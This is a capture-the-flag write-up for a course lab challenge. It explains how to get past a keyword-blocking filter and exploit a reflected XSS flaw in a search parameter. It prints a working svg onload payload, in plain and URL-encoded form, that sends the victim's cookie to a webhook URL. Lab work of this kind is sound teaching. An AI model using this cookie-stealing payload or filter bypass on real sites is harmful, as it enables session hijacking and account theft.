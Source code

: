 # Challenge `Give me more than a simple WAF` Writeup

- Vulnerability: 
  - XSS attack
- Where:
  - Feedback link input
- Impact:
  - allows to steal remote user's cookie

## Analyzing the server

This challenges consists in grabbing the admins' cookies but this time certain keywords are being filtered out.
From the previous challenge, we know that the server is vulnerable to XSS attacks.
The feedback feature allows us to submit a link that the admin will click on.

## Exploit

Knowing that the admin will click on the link, it's possible to take advantage of the search URL parameter 
`?search=` to send a malicious payload that will reveal the cookies on his browser and then send them
to us.
This time we can't create a payload with the keyword `script` or `img` so we will use the `svg` tag with the `onload` function to execute the JavaScript code.
Using the same technique as before, create a payload that sends a requesto a webhook URL:
`<svg onload="location='https://webhook.site/your-unique-id/'+document.cookie"/>`
Encode it:
`%3Csvg%20onload%3D%22location%3D%27https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%27%2Bdocument.cookie%22%2F%3E`
Finally, append it to the URL parameter `?search=` and submit it to the admin.
`http://mustard.stt.rnl.tecnico.ulisboa.pt:22251/?search=%3Csvg%20onload%3D%22location%3D%27https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%27%2Bdocument.cookie%22%2F%3E`
In the webhook site, a GET request will show up with the cookie in the URL
`	https://webhook.site/your-unique-id/SECRET=SSof%7BBut_I_was_told_that_this_WAF_was_all_I_needed...%7D` revealing the  
flag `SSof{But_I_was_told_that_this_WAF_was_all_I_needed...}`.

## Implementation

No script needed.